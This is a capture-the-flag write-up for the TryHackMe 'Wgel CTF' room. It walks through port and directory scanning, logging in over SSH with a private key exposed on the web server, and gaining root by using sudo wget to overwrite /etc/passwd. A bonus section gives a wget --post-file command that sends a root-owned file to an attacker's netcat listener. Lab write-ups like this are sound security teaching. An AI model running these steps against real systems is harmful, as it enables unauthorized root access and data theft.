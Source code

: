 # Wgel CTF
**Date:** November 12th 2022

**Author:** j.info

**Link:** [**Wgel CTF**](https://tryhackme.com/room/wgelctf) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>

![](images/wgel0.png)

<br>

## Objectives
- User flag
- Root flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
```

<br>

### Gobuster Scan

`gobuster dir -u http://$ip -t 30 -r -x php,txt,html -w dir-med.txt`

```
/index.html           (Status: 200) [Size: 11374]
/sitemap              (Status: 200) [Size: 21080]
```

And another scan on /sitemap:

```
/index.html           (Status: 200) [Size: 21080]
/images               (Status: 200) [Size: 8658] 
/.ssh                 (Status: 200) [Size: 955]  
/blog.html            (Status: 200) [Size: 12745]
/css                  (Status: 200) [Size: 2842] 
/fonts                (Status: 200) [Size: 1160] 
/js                   (Status: 200) [Size: 3818] 
/about.html           (Status: 200) [Size: 12232]
/contact.html         (Status: 200) [Size: 10346]
/services.html        (Status: 200) [Size: 10131]
/shop.html            (Status: 200) [Size: 17257]
/work.html            (Status: 200) [Size: 11428]
```

<br>

## Website Digging

Visiting the main page shows us a default Apache2 page:

![](images/wgel1.png)

There is no robots.txt to look at.

Taking a look through the view page source shows us a potential username:

![](images/wgel2.png)

Looking at /sitemap from our gobuster scan shows us an UNAPP page:

![](images/wgel3.png)

Well this is certainly a fun one... an exposed .ssh directory with a private ssh key inside it publically accessable on the website:

![](images/wgel4.png)

<br>

## System Access

I save the file to my system and try and ssh over with the username we found as a comment in the page source code:

![](images/wgel5.png)

<br>

## System Enumeration

Taking a look at which users are able to login shows us that we're the only other user on the system besides root:

![](images/wgel6.png)

Looking around at files in our home directory shows the user flag in the /Documents directory:

![](images/wgel7.png)

Taking a look at SUID files with `find / -perm /4000 2>/dev/null` doesn't give us anything out of the ordinary.

Same thing with `getcap -r / 2>/dev/null`, no interesting capabilities either.

Checking to see if we have any interesting cron jobs shows there is nothing we can see:

![](images/wgel8.png)

Looking at our permissions with `id` shows that we're part of the sudo group, and looking at `sudo -l` shows we can run wget as root:

![](images/wgel9.png)

Heading over to the [**GTFOBins page for wget**](https://gtfobins.github.io/gtfobins/wget/#sudo) tells us how we can use this to escalate to root:

![](images/wgel10.png)

<br>

## Root

Since we're able to output whatever file we host as root to a location of our choosing I'm going to just add a user to the /etc/passwd file.

First I create a password hash that we'll be using with `openssl passwd password`:

![](images/wgel11.png)

Then I look at the existing /etc/passwd file on the target machine and copy it's contents to a file over on my system called passwd, then add my user to the bottom of it and save the file:

![](images/wgel12.png)

Then I set up a simple python http server and download the file to the target system replacing the existing /etc/passwd file:

![](images/wgel13.png)

![](images/wgel14.png)

And making sure it's there:

![](images/wgel15.png)

Ok we should be good to go!

I run a simple `su jason` and switch over to our newly created root privileged user:

![](images/wgel16.png)

And over in the root directory we find our final flag waiting:

![](images/wgel17.png)

<br>

## Bonus

Instead of creating a user we could have also deduced the name of the root flag based on how the user flag was named, and then just transfer that file to our system. The wget command can also transfer files elsewhere instead of just to your system.

To do this set up a netcat listener on your system and then run the following command on the target system to send the file back to you:

`sudo wget --post-file=/root/root_flag.txt http://$ip:$port`

![](images/wgel18.png)

![](images/wgel19.png)

<br>

With that we've completed this CTF!

![](images/wgel20.png)

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Finding multiple pieces of sensitive information on a website and using them to ssh over to the webserver
- Using our ability to run wget as root to overwrite the existing /etc/passwd file with one we created that has a root user inside it with a password that we set
- Logging in as the newly created user to escalate to root

<br>

Many thanks to:
- [**MrSeth6797**](https://tryhackme.com/p/MrSeth6797) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)
